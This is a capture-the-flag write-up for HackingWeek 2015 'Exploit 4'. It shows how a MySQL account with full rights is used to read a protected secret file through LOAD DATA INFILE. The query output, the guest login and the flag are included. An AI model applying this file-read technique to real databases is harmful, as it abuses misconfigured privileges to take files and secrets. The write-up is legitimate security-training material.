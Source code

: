 # HackingWeek CTF 2015: Exploit 4

**Category:** exploit |
**Points:** 4816 |
**Solves:** 31 |
**Description:**

> Connectez-vous en tant que <code>guest</code> (mot de passe: <code>shu1eKoo</code>) sur la machine <code>37.187.22.21</code>.<br>
> Vous trouverez la clef de validation cachée dans le fichier <code>/home/exploit04/.secret</code>.
>
> ```
> $> ssh guest@37.187.22.21
> ```

___

## Write-up

This task is an exploit task.  
We are given a shell on a remote server.  
We are also given a MySQL user who has every rights.  
This was not intended at first, hence the exploit 06.  

> mysql> `USE test;`
> Reading table information for completion of table and column names  
> You can turn off this feature to get a quicker startup with -A
>  
> Database changed  
> mysql> `CREATE TABLE XeR(flag VARCHAR(255));`  
> Query OK, 0 rows affected (0.09 sec)  
> 
> mysql> `LOAD DATA INFILE '/home/exploit04/.secret' INTO TABLE XeR;`  
> Query OK, 1 row affected (0.05 sec)  
> Records: 1  Deleted: 0  Skipped: 0  Warnings: 0  
> 
> mysql> `SELECT * FROM XeR;`  
> ```
> +------------+
> | flag       |
> +------------+
> | xaeVu9oot1 |
> +------------+
> ```
> 
> 1 row in set (0.00 sec)  
>
> mysql> `DROP TABLE XeR;`  
> Query OK, 0 rows affected (0.06 sec)  

**Flag**: xaeVu9oot1

Bonus:

> mysql> SELECT USER();  
```
+----------------+
| USER()         |
+----------------+
| root@localhost |
+----------------+
```
> 1 row in set (0.00 sec)
